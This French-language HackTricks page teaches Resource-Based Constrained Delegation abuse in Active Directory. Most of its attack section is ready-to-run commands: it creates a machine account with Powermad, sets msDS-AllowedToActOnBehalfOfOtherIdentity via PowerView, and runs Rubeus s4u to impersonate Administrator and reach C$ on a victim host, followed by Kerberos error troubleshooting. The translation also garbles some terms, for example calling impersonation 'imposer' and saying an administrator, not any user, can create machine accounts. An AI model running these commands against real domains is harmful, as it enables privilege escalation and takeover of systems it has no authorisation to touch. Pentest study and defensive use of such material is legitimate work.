 # Délégation Contraignante Basée sur les Ressources

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

## Notions de Base de la Délégation Contraignante Basée sur les Ressources

Ceci est similaire à la [Délégation Contraignante](constrained-delegation.md) de base mais **au lieu** de donner des permissions à un **objet** pour **imposer n'importe quel utilisateur contre un service**. La Délégation Contraignante Basée sur les Ressources **définit** dans **l'objet qui est capable d'imposer n'importe quel utilisateur contre lui**.

Dans ce cas, l'objet contraint aura un attribut appelé _**msDS-AllowedToActOnBehalfOfOtherIdentity**_ avec le nom de l'utilisateur qui peut imposer n'importe quel autre utilisateur contre lui.

Une autre différence importante entre cette Délégation Contraignante et les autres délégations est que tout utilisateur avec **des permissions d'écriture sur un compte machine** (_GenericAll/GenericWrite/WriteDacl/WriteProperty/etc_) peut définir le _**msDS-AllowedToActOnBehalfOfOtherIdentity**_ (Dans les autres formes de Délégation, vous aviez besoin de privilèges d'administrateur de domaine).

### Nouveaux Concepts

Dans la Délégation Contraignante, il a été dit que le **`TrustedToAuthForDelegation`** drapeau à l'intérieur de la valeur _userAccountControl_ de l'utilisateur est nécessaire pour effectuer un **S4U2Self.** Mais ce n'est pas complètement vrai.\
La réalité est que même sans cette valeur, vous pouvez effectuer un **S4U2Self** contre n'importe quel utilisateur si vous êtes un **service** (avez un SPN) mais, si vous **avez `TrustedToAuthForDelegation`** le TGS retourné sera **Transférable** et si vous **n'avez pas** ce drapeau, le TGS retourné **ne sera pas** **Transférable**.

Cependant, si le **TGS** utilisé dans **S4U2Proxy** **n'est PAS Transférable**, essayer d'abuser d'une **Délégation Contraignante de base** **ne fonctionnera pas**. Mais si vous essayez d'exploiter une **délégation contraignante basée sur les ressources, cela fonctionnera** (ce n'est pas une vulnérabilité, c'est une fonctionnalité, apparemment).

### Structure de l'Attaque

> Si vous avez **des privilèges d'écriture équivalents** sur un **compte d'ordinateur**, vous pouvez obtenir **un accès privilégié** sur cette machine.

Supposons que l'attaquant a déjà **des privilèges d'écriture équivalents sur l'ordinateur de la victime**.

1. L'attaquant **compromet** un compte qui a un **SPN** ou **en crée un** (“Service A”). Notez que **tout** _Utilisateur Administrateur_ sans aucun autre privilège spécial peut **créer** jusqu'à 10 **objets d'ordinateur (**_**MachineAccountQuota**_**)** et leur attribuer un **SPN**. Donc, l'attaquant peut simplement créer un objet d'ordinateur et définir un SPN.
2. L'attaquant **abuse de son privilège d'ÉCRITURE** sur l'ordinateur de la victime (ServiceB) pour configurer **la délégation contraignante basée sur les ressources pour permettre à ServiceA d'imposer n'importe quel utilisateur** contre cet ordinateur de la victime (ServiceB).
3. L'attaquant utilise Rubeus pour effectuer une **attaque S4U complète** (S4U2Self et S4U2Proxy) de Service A à Service B pour un utilisateur **avec un accès privilégié à Service B**.
1. S4U2Self (depuis le compte SPN compromis/créé) : Demander un **TGS d'Administrateur pour moi** (Non Transférable).
2. S4U2Proxy : Utiliser le **TGS non Transférable** de l'étape précédente pour demander un **TGS** de **l'Administrateur** au **hôte victime**.
3. Même si vous utilisez un TGS non Transférable, comme vous exploitez la délégation contraignante basée sur les ressources, cela fonctionnera.
4. L'attaquant peut **passer le ticket** et **imposer** l'utilisateur pour obtenir **un accès au ServiceB de la victime**.

Pour vérifier le _**MachineAccountQuota**_ du domaine, vous pouvez utiliser :
```powershell
Get-DomainObject -Identity "dc=domain,dc=local" -Domain domain.local | select MachineAccountQuota
```
## Attaque

### Création d'un objet ordinateur

Vous pouvez créer un objet ordinateur à l'intérieur du domaine en utilisant [powermad](https://github.com/Kevin-Robertson/Powermad)**:**
```powershell
import-module powermad
New-MachineAccount -MachineAccount SERVICEA -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose

# Check if created
Get-DomainComputer SERVICEA
```
### Configurer la Délégation Contraignante Basée sur les Ressources

**Utilisation du module PowerShell activedirectory**
```powershell
Set-ADComputer $targetComputer -PrincipalsAllowedToDelegateToAccount SERVICEA$ #Assing delegation privileges
Get-ADComputer $targetComputer -Properties PrincipalsAllowedToDelegateToAccount #Check that it worked
```
**Utilisation de powerview**
```powershell
$ComputerSid = Get-DomainComputer FAKECOMPUTER -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer $targetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

#Check that it worked
Get-DomainComputer $targetComputer -Properties 'msds-allowedtoactonbehalfofotheridentity'

msds-allowedtoactonbehalfofotheridentity
----------------------------------------
{1, 0, 4, 128...}
```
### Réaliser une attaque S4U complète

Tout d'abord, nous avons créé le nouvel objet Ordinateur avec le mot de passe `123456`, donc nous avons besoin du hash de ce mot de passe :
```bash
.\Rubeus.exe hash /password:123456 /user:FAKECOMPUTER$ /domain:domain.local
```
Cela imprimera les hachages RC4 et AES pour ce compte.\
Maintenant, l'attaque peut être effectuée :
```bash
rubeus.exe s4u /user:FAKECOMPUTER$ /aes256:<aes256 hash> /aes128:<aes128 hash> /rc4:<rc4 hash> /impersonateuser:administrator /msdsspn:cifs/victim.domain.local /domain:domain.local /ptt
```
Vous pouvez générer plus de tickets en demandant une seule fois en utilisant le paramètre `/altservice` de Rubeus :
```bash
rubeus.exe s4u /user:FAKECOMPUTER$ /aes256:<AES 256 hash> /impersonateuser:administrator /msdsspn:cifs/victim.domain.local /altservice:krbtgt,cifs,host,http,winrm,RPCSS,wsman,ldap /domain:domain.local /ptt
```
{% hint style="danger" %}
Notez que les utilisateurs ont un attribut appelé "**Ne peut pas être délégué**". Si un utilisateur a cet attribut à True, vous ne pourrez pas l'imiter. Cette propriété peut être vue dans BloodHound.
{% endhint %}

### Accès

La dernière ligne de commande effectuera l'**attaque S4U complète et injectera le TGS** de l'Administrateur vers l'hôte victime en **mémoire**.\
Dans cet exemple, un TGS a été demandé pour le service **CIFS** de l'Administrateur, vous pourrez donc accéder à **C$** :
```bash
ls \\victim.domain.local\C$
```
### Abuser de différents tickets de service

Apprenez à propos des [**tickets de service disponibles ici**](silver-ticket.md#available-services).

## Erreurs Kerberos

* **`KDC_ERR_ETYPE_NOTSUPP`** : Cela signifie que kerberos est configuré pour ne pas utiliser DES ou RC4 et que vous ne fournissez que le hachage RC4. Fournissez à Rubeus au moins le hachage AES256 (ou fournissez-lui simplement les hachages rc4, aes128 et aes256). Exemple : `[Rubeus.Program]::MainString("s4u /user:FAKECOMPUTER /aes256:CC648CF0F809EE1AA25C52E963AC0487E87AC32B1F71ACC5304C73BF566268DA /aes128:5FC3D06ED6E8EA2C9BB9CC301EA37AD4 /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:Administrator /msdsspn:CIFS/M3DC.M3C.LOCAL /ptt".split())`
* **`KRB_AP_ERR_SKEW`** : Cela signifie que l'heure de l'ordinateur actuel est différente de celle du DC et que kerberos ne fonctionne pas correctement.
* **`preauth_failed`** : Cela signifie que le nom d'utilisateur donné + les hachages ne fonctionnent pas pour se connecter. Vous avez peut-être oublié de mettre le "$" dans le nom d'utilisateur lors de la génération des hachages (`.\Rubeus.exe hash /password:123456 /user:FAKECOMPUTER$ /domain:domain.local`)
* **`KDC_ERR_BADOPTION`** : Cela peut signifier :
* L'utilisateur que vous essayez d'imiter ne peut pas accéder au service souhaité (parce que vous ne pouvez pas l'imiter ou parce qu'il n'a pas suffisamment de privilèges)
* Le service demandé n'existe pas (si vous demandez un ticket pour winrm mais que winrm n'est pas en cours d'exécution)
* L'ordinateur fictif créé a perdu ses privilèges sur le serveur vulnérable et vous devez les lui redonner.

## Références

* [https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
* [https://www.harmj0y.net/blog/redteaming/another-word-on-delegation/](https://www.harmj0y.net/blog/redteaming/another-word-on-delegation/)
* [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution#modifying-target-computers-ad-object](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution#modifying-target-computers-ad-object)
* [https://stealthbits.com/blog/resource-based-constrained-delegation-abuse/](https://stealthbits.com/blog/resource-based-constrained-delegation-abuse/)

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Vérifiez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
